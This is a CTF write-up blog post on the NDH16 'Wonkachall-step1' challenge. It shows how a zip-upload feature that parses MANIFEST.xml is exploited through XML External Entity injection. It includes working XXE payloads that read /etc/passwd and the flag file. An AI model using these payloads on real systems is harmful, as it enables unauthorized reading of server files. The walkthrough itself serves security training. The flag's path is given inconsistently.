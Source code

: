 ```yaml
---
layout: post
title:  "XML External Entities: Wonkachall-step1 - NDH16"
date:   2018-07-03 22:00:00 +0200
comments: true
author: BoiteAKlou
categories:
- "Web"
---
```


This challenge covers one of the most efficient and popular attack against web servers. It is also the first of a series of 6 challenges from the NDH16 public CTF.

 <!--excerpt-->

## Challenge description

We have [a website](http://willywonka.shop:4242/) which is actually The Golden Ticket Blackmarket platform. It proposes a list of purchasable golden tickets where each ticket has a bitcoin cost, a name and an address.

![Wonka Shop screen capture]({{ "/assets/2018-07-03/tickets.png" | absolute_url }} "Willy Wonka Shop")

The challenge statement says that the flag is stored in ""/flags.txt". The objective is to take control of this website. Hurry up!

## Take my Golden Ticket!

The first reflex to have when you arrive on a website should be to hit "CTRL+U" and dive deep into the source code.
The vast majority of this website is static at the exception of the "/upload.php" page. We are able to upload a zip archive containing a **MANIFEST.xml** and a **Ticket** as shown in the provided example.

![Upload page screen capture]({{ "/assets/2018-07-03/upload.png" | absolute_url }} "Upload page"){:width="80%"}

The **Ticket file** contains a string representing the content of the Golden Ticket and the **MANIFEST.xml** stores the three variables displayed on the home page for each ticket, as shown below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>xxx</adresseBTC>
</root>
```

Wait a second... it means that the server is parsing XML files in order to get these values... Very interesting! :smiling_imp:

Have you ever heard of XML external entities?

## That's not a Ticket

XML External Entity Processing attack aim at exploiting **weakly configured XML parsers**. The objective is to reference external entities inside the XML document in order to **access local resources** or to **execute code remotely**.

Alright, now let's modify our MANIFEST.xml to detect if the website is vulnerable. I suggest the following payload, supposed to include "/etc/passwd" and to display it in place of the ticket's address:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>&xxe;</adresseBTC>
</root>
```

Then we zip the MANIFEST and the Ticket, we upload it and... :tada:

![XXE disclosure]({{ "/assets/2018-07-03/etcpasswd.png" | absolute_url }} "/etc/passwd"){:width="80%"}

Say Hello to the list of users!

Fine, now we can forge the payload that will allow us to retrieve the flag located under "/flag.txt". This is basically the same payload as before in which we replace the target file as follows:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>&xxe;</adresseBTC>
</root>
```

And here comes the reward! :triangular_flag_on_post:

![XXE disclosure]({{ "/assets/2018-07-03/flag.png" | absolute_url }} "Flag"){:width="80%"}

You can now read the writeup of Wonkachall-step2 :wink:



BoiteAKlou :hammer:

